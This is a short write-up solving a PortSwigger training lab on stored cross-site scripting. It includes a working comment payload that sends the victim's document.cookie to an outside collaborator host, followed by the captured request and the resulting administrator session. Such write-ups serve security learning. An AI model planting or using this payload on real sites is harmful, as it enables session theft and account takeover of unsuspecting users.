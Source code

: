 # [Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

## Lab

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

## Analysis

post a simple comment:

```html
'"<script>alert(3)</script>
```

reload page and alert() popup

## Solutions

comment's body:

```html
'"<script>
fetch('https://efx0n599cnx0wyhxl9c3nbcfy64xsngc.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

- no-cors: Prevents the method from being anything other than HEAD, GET or POST, and the headers from being anything other than simple headers. If any ServiceWorkers intercept these requests, they may not add or override any headers except for those that are simple headers.

wait, check a http request coming to collaborator:

```http
POST / HTTP/1.1
Host: efx0n599cnx0wyhxl9c3nbcfy64xsngc.oastify.com

secret=LOxSC0B8aPo3Yr74WqgqH547r6RDyzkB; session=B0aYoODiEDh3Qp4JkQSy2ROTITI5OLlO
```

update session, go to my-account page: `Your username is: administrator` => lab solved
